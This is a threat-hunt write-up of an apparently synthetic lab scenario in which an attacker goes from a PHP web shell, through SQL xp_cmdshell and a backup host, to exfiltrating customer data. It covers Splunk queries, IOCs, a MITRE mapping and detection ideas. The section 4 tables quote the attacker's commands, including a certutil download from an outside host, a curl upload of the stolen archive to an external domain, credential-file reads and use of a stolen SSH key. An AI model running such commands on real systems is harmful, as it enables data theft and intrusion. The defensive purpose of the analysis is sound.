

# Threat Hunt Write-up: PHP Web Shell to Customer Data Exfiltration

**Scenario:** `calloway-php2shell`  |  **Domain:** `calloway.local`
**Data source:** Splunk, `index="evidenceforge"` (Sysmon-style process telemetry, Zeek `http`/`ssl`/`conn`, Windows logons)
**Hosts in scope:** `WEB01` (IIS customer portal), `DB01` (SQL Server), `BKP01` (Linux backup host)
**Event date:** 2026-10-20 (all times UTC)

**All analysis was done by myself and report was simply cleaned up with AI. AI performed zerio analysis of this scenario.**

> All credentials in this write-up come from a synthetic dataset. The SQL password is still masked (`<REDACTED>`) in text and screenshots as good practice.

---

## 1. Executive Summary

Long-tail analysis of process command lines led me to `sqlcmd.exe` being launched by `php-cgi.exe` on `WEB01`. That parent/child relationship points to a web shell (`thumb_cache.php`). From there the actor:

1. Ran host, network, account and domain discovery from the web shell.
2. Read the portal's `config.php` and reused its over-privileged SQL login (`portal_app`) to reach `DB01` and enable `xp_cmdshell`.
3. Ran commands on `DB01` as the SQL service account (`svc-sql`), located ERP customer and pricing tables, exported them with `bcp`, and compressed them into `sqlmaint.zip`.
4. Copied the archive over SSH to `BKP01` with the backup job's key, using the `svc-backup` identity.
5. Uploaded the archive over HTTPS from `BKP01` to `static.cloudmetric-cdn.com` (`5.188.206.34`).
6. Deleted the staged files on `BKP01` and `DB01` and switched `xp_cmdshell` back off.

**Three service accounts are compromised: `svc-portal`, `svc-sql` and `svc-backup`.** `WEB01` is confirmed compromised, so this needs to go to IR for forensic collection and scoping.

---

## 2. Attack Path



---

## 3. Hunt Method

I started with a long-tail review of command lines:

```spl
index="evidenceforge"
| stats count by properties.command_line
```

Most `sqlcmd.exe` activity looked like routine database administration (queries against `analytics`, `hr_records` and `inventory` on `DB01.calloway.local`).


The outlier was `sqlcmd.exe` running `xp_cmdshell`/`sp_configure` from `WEB01`, so I pivoted on its parent process:

```spl
index="evidenceforge" sqlcmd.exe "properties.source_image_path"="C:\\Windows\\System32\\php-cgi.exe"
```

A web server worker (`php-cgi.exe`, PID 14616) spawning `sqlcmd.exe` is not expected behavior.


I then pivoted on `php-cgi.exe` as the parent to list everything it spawned, and repeated the process on `DB01`, `BKP01` and across all `svc-*` accounts.

---

## 4. Findings by Phase

### 4.1 WEB01: web shell, discovery and credential access (`svc-portal`)

Everything below ran under `svc-portal`, spawned from `php-cgi.exe`:

| Purpose | Command |
|---|---|
| Identity | `cmd.exe /c whoami /all` |
| Host / network config | `cmd.exe /c "hostname & systeminfo & ipconfig /all"` |
| Local accounts, admins, services | `cmd.exe /c "net user & net localgroup administrators & tasklist /svc"` |
| Connections, ARP, routes | `cmd.exe /c "netstat -ano & arp -a & route print"` |
| Find config files | `cmd.exe /c dir /s /b C:\inetpub\wwwroot\portal\*config*` |
| **Read DB credentials** | `cmd.exe /c type C:\inetpub\wwwroot\portal\includes\config.php` |
| Domain, trusts, Domain Admins | `cmd.exe /c "nltest /dclist:calloway.local & nltest /domain_trusts & net group \"Domain Admins\" /domain"` |
| Server segment port sweep | `powershell.exe -NoProfile -NonInteractive -Command "foreach($i in 1..254){foreach($p in 22,135,445,1433,3389,5985){Test-NetConnection -ComputerName 10.10.20.$i -Port $p -InformationLevel Quiet}}"` |
| Tool download | `certutil.exe -urlcache -split -f http://45.83.64.201/svc.exe C:\Windows\Temp\svc.exe` |
| SQL server discovery (SPN) | `setspn.exe -T calloway.local -Q MSSQLSvc/*` |


**Web shell and tool download.** Network logs show POST requests to `thumb_cache.php` and `upload.php` from the same IP, which has a Python user-agent. Zeek HTTP logs show `GET /svc.exe` from `10.10.10.10` (WEB01) to `45.83.64.201` with HTTP 200 and a ~44.7 MB response. Whether the file actually landed and ran is not yet confirmed (see section 8).


**Credential reuse.** The actor read the portal's database configuration and reused the `portal_app` SQL login, which has far more privilege than a web application needs. It was used to reach `DB01` and enable `xp_cmdshell`:

```
sqlcmd.exe -S DB01 -U portal_app -P <REDACTED> -Q "EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE"
```

At the end of the activity the same login switched it back off, which is the command shown in the process screenshot above:

```
sqlcmd.exe -S DB01 -U portal_app -P <REDACTED> -Q "EXEC sp_configure 'xp_cmdshell',0; RECONFIGURE"
```

### 4.2 DB01: data discovery, staging and cleanup (`svc-sql`)

Commands on `DB01` ran as the SQL service account, which is what `xp_cmdshell` produces:

| Purpose | Command |
|---|---|
| Confirm context | `cmd.exe /c "whoami & hostname & ipconfig /all"` |
| List databases and data dir | `cmd.exe /c "sqlcmd -E -Q \"SELECT name,create_date FROM sys.databases\" & dir D:\SQLData"` |
| Find sensitive tables | `cmd.exe /c sqlcmd -E -d ERP -Q "SELECT TABLE_SCHEMA,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%Customer%' OR TABLE_NAME LIKE '%Price%' OR TABLE_NAME LIKE '%Bank%'"` |
| Sample customer table | `cmd.exe /c sqlcmd -E -d ERP -Q "SELECT TOP 5 * FROM dbo.CustomerAccounts"` |
| Export customer accounts | `cmd.exe /c bcp "SELECT * FROM ERP.dbo.CustomerAccounts" queryout C:\Windows\Temp\ca.dat -c -T -S localhost` |
| Export contract pricing | `cmd.exe /c bcp "SELECT * FROM ERP.dbo.ContractPricing" queryout C:\Windows\Temp\cp.dat -c -T -S localhost` |
| Archive | `powershell.exe -NoProfile -Command "Compress-Archive -Path C:\Windows\Temp\ca.dat,C:\Windows\Temp\cp.dat -DestinationPath C:\Windows\Temp\sqlmaint.zip"` |
| Move to backup host | `scp.exe -i C:\ProgramData\SQLBackup\id_ed25519 -o StrictHostKeyChecking=no C:\Windows\Temp\sqlmaint.zip svc-backup@10.10.20.50:/var/backups/db/sqlmaint.zip` |
| Cleanup | `cmd.exe /c del /f /q C:\Windows\Temp\ca.dat C:\Windows\Temp\cp.dat C:\Windows\Temp\sqlmaint.zip` |


Data at risk: **customer account data and contract pricing** from the `ERP` database.

### 4.3 BKP01: staging and exfiltration (`svc-backup`)

The archive was pushed from `DB01` (`scp.exe`, `svc-sql`) to `BKP01` using the nightly backup job's SSH key and `svc-backup` identity. An interactive session on `BKP01` then checked the staged file and outbound connectivity, uploaded the archive, and removed it:

| Purpose | Command |
|---|---|
| Verify staged file / disk | `ls -la /var/backups/db/`, `df -h /var/backups` |
| Test egress | `curl -sS -m 5 -I https://static.cloudmetric-cdn.com/` |
| **Exfiltrate** | `curl -sS -T /var/backups/db/sqlmaint.zip https://static.cloudmetric-cdn.com/u/9f2c1d4e` |
| Cleanup | `shred -u /var/backups/db/sqlmaint.zip` |

Zeek `ssl` shows the exfiltration connection from `10.10.20.50` to `5.188.206.34:443` with SNI `static.cloudmetric-cdn.com`.


Pivoting on `sqlmaint.zip` across hosts confirms the same file name on `DB01` (create, compress, copy, delete) and `BKP01` (upload, shred):


### 4.4 Service-account scoping

Grouping commands by account shows all three `svc-*` accounts with attack activity, on separate hosts:


Logon events show the same three accounts, matching the initial hypothesis:


| Account | Host | Role in the attack |
|---|---|---|
| `svc-portal` | WEB01 | Web shell execution context, discovery, SQL pivot |
| `svc-sql` | DB01 | `xp_cmdshell` execution, data discovery, export, archive, staging, cleanup |
| `svc-backup` | BKP01 | Receiving SSH identity, interactive session, exfiltration, cleanup |

---

## 5. Key Timestamps (from event evidence)

Taken from the event's own `ts` / `timestamp_ms` fields, not the Splunk display time (which reflects ingest time in the screenshots).

| Time (UTC) | Evidence | Event |
|---|---|---|
| 2026-10-20 10:12:26 | Zeek `http` `ts` | `GET /svc.exe` from WEB01 to 45.83.64.201 |
| 2026-10-20 13:14:27 | `timestamp_ms` on `scp.exe` | `sqlmaint.zip` copied DB01 to BKP01 |
| 2026-10-20 14:12:21 | Zeek `ssl` `ts` | HTTPS session BKP01 to 5.188.206.34 (exfil) |
| 2026-10-20 14:57:58 | `timestamp_ms` on `sqlcmd.exe` | `xp_cmdshell` set back to 0 from WEB01 |

---

## 6. Indicators of Compromise

### Network

| Indicator | Context |
|---|---|
| `45.83.64.201` | Attacker host serving `svc.exe` over HTTP (port 80) |
| `5.188.206.34:443` | Exfiltration destination |
| `static.cloudmetric-cdn.com` | SNI and URL host for the upload (`/u/9f2c1d4e`) |
| `10.10.20.50:22` | BKP01, SSH destination for the staged archive |
| `10.10.10.10` | WEB01 (source of the `svc.exe` request) |
| Ports 22, 135, 445, 1433, 3389, 5985 | Targets of the server-segment sweep from WEB01 |
| `thumb_cache.php`, `upload.php` | Web shell and upload endpoints (POST requests) |

### Host

| Indicator | Context |
|---|---|
| `C:\Windows\Temp\svc.exe` | Target path of the `certutil` download (presence on disk unconfirmed) |
| `C:\Windows\Temp\ca.dat`, `cp.dat` | `bcp` exports (customer accounts, contract pricing) |
| `C:\Windows\Temp\sqlmaint.zip`, `/var/backups/db/sqlmaint.zip` | Staged archive on DB01 and BKP01 |
| `C:\ProgramData\SQLBackup\id_ed25519` | Backup SSH private key reused by the actor |
| `portal_app` SQL login | Over-privileged login, credentials stored in `config.php` |
| `php-cgi.exe` as parent of `cmd.exe`, `powershell.exe`, `sqlcmd.exe`, `certutil.exe`, `setspn.exe` | Web shell execution pattern |

### Accounts

`svc-portal`, `svc-sql`, `svc-backup` (all compromised).

---

## 7. MITRE ATT&CK Mapping

| Tactic | Technique | Evidence |
|---|---|---|
| Initial Access / Persistence | T1190 Exploit Public-Facing Application; T1505.003 Web Shell | POSTs to `upload.php` / `thumb_cache.php` |
| Execution | T1059.003 Windows Command Shell; T1059.001 PowerShell | `cmd.exe /c ...` and `powershell.exe` under `php-cgi.exe` |
| Discovery | T1033, T1082, T1016, T1087.001, T1069.001, T1007, T1083 | `whoami`, `systeminfo`, `ipconfig`, `net user`, `net localgroup`, `tasklist /svc`, `dir /s` |
| Discovery | T1482 Domain Trust Discovery; T1069.002; T1087.002 | `nltest`, `net group "Domain Admins"`, `setspn -Q` |
| Discovery | T1046 Network Service Discovery | PowerShell `Test-NetConnection` sweep |
| Credential Access | T1552.001 Credentials in Files | `type ...\config.php` |
| Command and Control | T1105 Ingress Tool Transfer | `certutil -urlcache ... svc.exe` |
| Lateral Movement | T1078 Valid Accounts; T1021.004 SSH; T1570 Lateral Tool Transfer | `portal_app` SQL login; `scp.exe` to BKP01 with the backup key |
| Execution / Persistence | T1505.001 SQL Stored Procedures | `xp_cmdshell` enabled via `sp_configure` |
| Collection | T1005 Data from Local System; T1560 Archive Collected Data | `bcp` exports; `Compress-Archive` |
| Exfiltration | T1048 Exfiltration Over Alternative Protocol | `curl -T` to `static.cloudmetric-cdn.com` over HTTPS |
| Defense Evasion | T1070.004 File Deletion | `del /f /q`, `shred -u`; `xp_cmdshell` reset to 0 |

---

## 8. Open Items to Validate

- **`svc.exe` outcome.** Zeek shows HTTP 200 and ~44.7 MB for `GET /svc.exe`. Confirm on `WEB01` whether the file was written to `C:\Windows\Temp\` and executed, and check egress and firewall logs for whether the transfer was allowed or blocked.
- **Web shell upload.** The `thumb_cache.php` and `upload.php` POSTs and the Python user-agent come from network log review and are not in the screenshots above. Capture the raw HTTP records for the final report.
- **`50.192.195.42`.** This address appeared while pivoting on the WEB01 address (`10.10.10.10`). It is not tied to any other evidence here. Confirm whether it is WEB01's NAT/public address or an unrelated source before treating it as an IOC.
- **Baseline backup traffic.** `svc-backup` also shows `scp.exe ... ERP_full.bak` to `BKP01` in the data. This is likely the legitimate nightly backup. Baseline it so it is not confused with the `sqlmaint.zip` copy by `svc-sql`.
- **Exposure.** Identify exactly which rows and fields in `CustomerAccounts` and `ContractPricing` were exported, and what banking data (if any) they contain.

---

## 9. Detection Opportunities

| Idea | Logic |
|---|---|
| Web server spawning shells | `php-cgi.exe` / `w3wp.exe` as parent of `cmd.exe`, `powershell.exe`, `sqlcmd.exe`, `certutil.exe`, `setspn.exe` |
| `certutil` download | `certutil.exe` with `-urlcache` and `-f http` |
| `xp_cmdshell` toggling | `sp_configure` with `xp_cmdshell` from application logins; `cmd.exe` children of `sqlservr.exe` |
| Bulk export and archive on DB hosts | `bcp ... queryout` followed by `Compress-Archive` in `C:\Windows\Temp` |
| Unexpected backup-key use | `scp.exe` using `id_ed25519` outside the scheduled backup window or from a non-backup account |
| Archive upload from a Linux host | `curl -T` / `--upload-file` to external HTTPS hosts from `BKP01` |
| Cleanup | `shred -u` on `/var/backups/db`; `del /f /q` on `*.dat` and `*.zip` in `C:\Windows\Temp` |

---

## 10. Recommended Actions

1. Engage IR and collect forensic images from `WEB01`, `DB01` and `BKP01`.
2. Isolate `WEB01`, remove `thumb_cache.php` and the upload path, and patch the vulnerable handlers.
3. Reset `portal_app`, `svc-portal`, `svc-sql` and `svc-backup` credentials and rotate the backup SSH key (`id_ed25519`).
4. Reduce `portal_app` to least privilege (it was able to reconfigure `xp_cmdshell`) and keep `xp_cmdshell` disabled.
5. Block `45.83.64.201`, `5.188.206.34` and `static.cloudmetric-cdn.com`, and search for other hosts contacting them.
6. Assess customer-data exposure for breach notification obligations.
